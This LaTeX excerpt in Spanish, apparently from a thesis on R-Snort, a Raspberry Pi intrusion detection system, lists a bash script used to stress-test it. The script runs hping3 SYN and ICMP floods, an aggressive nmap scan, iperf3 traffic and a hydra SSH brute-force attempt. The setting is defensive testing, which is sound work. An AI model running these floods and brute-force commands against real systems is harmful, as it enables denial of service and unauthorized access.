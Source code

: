 \documentclass[11pt,a4paper,twoside]{report}
\begin{document}
El Código \ref{lst:ataques-masivos} muestra la lógica detrás del script utilizado para realizar ataques de carga intensa al sistema.

\begin{lstlisting}[language=bash,caption={Script para generar ataques masivos contra R-Snort.},label={lst:ataques-masivos}]
	# PUERTO UNICO POR INSTANCIA
	PUERTO_IPERF="${1:-5201}"
	
	echo "[+] ATAQUE desde terminal con IPERF en puerto $PUERTO_IPERF"
	echo "==============================================="
	
	# 1. TCP SYN Flood
	echo "[1] Iniciando TCP SYN Flood con hping3..."
	sudo hping3 -S --flood -p 80 $R_SNORT_IP &
	
	# 2. ICMP Flood
	echo "[2] Iniciando ICMP Flood..."
	sudo hping3 -1 --flood $R_SNORT_IP &
	
	# 3. Escaneo nmap agresivo
	echo "[3] Ejecutando escaneo Nmap agresivo..."
	sudo nmap -sS -sU -T4 -A $R_SNORT_IP --reason --script "default" -p- &
	
	# 4. Tráfico continuo con iperf3 (en puerto variable)
	echo "[4] Ejecutando iperf3 -c $R_SNORT_IP -p $PUERTO_IPERF ..."
	iperf3 -c $R_SNORT_IP -p $PUERTO_IPERF -t 60 -b 100M &
	
	# 5. Ataque de fuerza bruta con hydra (limitado)
	echo "[5] Simulando fuerza bruta con Hydra..."
	hydra -l admin -p admin ssh://$R_SNORT_IP -t 4 -V -f &
	
	echo "==============================================="
	echo "Todos los ataques están en ejecución. Observar las gráficas."
\end{lstlisting}

Este enfoque permitió verificar no solo la capacidad del sistema para generar alertas ante ataques múltiples, sino también analizar el rendimiento de la Raspberry Pi bajo carga, así como la eficacia del almacenamiento de alertas y la visualización en tiempo real mediante Grafana.

\subsection{Pruebas funcionales}

Para el apartado de pruebas se pretende verificar la estabilidad y eficiencia de la interfaz frontend de R-Snort ante un volumen extremo de alertas generado durante las pruebas de estrés con tráfico malicioso y las demás funcionalidades del ecosistema R-Snort.\newline
\end{document}
